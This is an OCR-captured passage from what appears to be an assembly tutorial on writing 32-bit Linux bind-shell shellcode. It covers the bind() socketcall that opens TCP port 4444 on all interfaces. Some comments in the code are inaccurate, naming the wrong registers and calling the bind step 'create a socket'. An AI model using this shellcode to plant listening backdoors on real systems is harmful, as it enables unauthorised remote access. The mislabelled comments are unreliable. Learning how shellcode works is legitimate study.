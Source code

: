 This System Call is tricky because we will need to have an array within an array.  
+ `ECX[1]` will point to the start of the array of 3 variables on the Stack.  
+ We will push these 3 variables onto the stack first, then we will push `ECX[2]`, `ECX[1]`, and finally `ECX[0]`.  

 This is the struct we used in C to store the IP-Socket Address values used for the bind() function call:  

```c
struct sockaddr_in ipSocketAddr = { 
  .sin_family = AF_INET,         // ARG[0]
  .sin_port = htons(4444),       // ARG[1]
  .sin_addr.s_addr = INADDR_ANY  // ARG[2]
};
```  

+ `ARG[0] = AF_INET = 0x2`
  - We know this value from the last SYSCAL we did.  
+ `ARG[1] = htons(4444) =  0x5c11`
  - All this means is `4444` in reverse, in Hex (`0x115C`).
  - Everything pushed onto the Stack needs to be in reverse.  
+ `ARG[2] = INADDR_ANY = 0x00000000`
  - All Network Interfaces
  - Find value for `INADDR_ANY`: 
```console
 cat /usr/src/linux-headers-$(uname -r)/include/uapi/linux/in.h | grep INADDR_ANY  
   #define INADDR_ANY ((unsigned long int) 0x00000000)
```
 
 The order to push all this on the stack will be:   
1. `ARG[2]`  
2. `ARG[1]`  
3. `ARG[0]`  
4. `ECX[2]`  
5. `ECX[1]`  
6. `ECX[0]`  

```nasm
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x2       ; EBX is set to create a socket
xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
xor ecx, ecx      ; This sets the EAX Register to NULL (all zeros).
mov ecx, esp      ; Save the memory location of ARG[0] into the EDX Register.
                  ;   We will use this for ECX[1].
push 0x10         ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
push ecx          ; ECX[1]. The pointer to the beginning of the struct we saved is 
                  ;  now loaded up for ECX[1].
push esi          ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp      ; Now all that is left is to point ECX to the top of the loaded stack.
int 0x80          ; System Call Interrupt 0x80 
```


[1]: 1
[1]: 1